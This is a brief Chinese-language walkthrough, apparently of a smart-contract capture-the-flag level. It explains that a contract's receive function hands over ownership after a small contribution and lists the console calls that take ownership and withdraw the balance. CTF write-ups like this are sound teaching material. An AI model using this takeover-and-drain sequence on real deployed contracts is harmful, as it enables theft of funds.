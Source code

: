 阅读合约代码可以发现，可以 `receive` 函数中可以在一定条件下获得合约所有权。而 `contribute` 函数中获得所有权的条件比较难满足，因此思路为先通过  `contribute`  函数使 `contributions[msg.sender] > 0` 成立，再调用 `receive` 函数获得合约所有权。最后使用 `withdraw` 函数转出合约余额。

```js
// 修改 contributions 数据
await contract.contribute({value: 1});

// 调用 receive
await contract.send(1);

// 确认已经成为所有者
await contract.owner();

// 转出合约余额
await contract.withdraw();
```

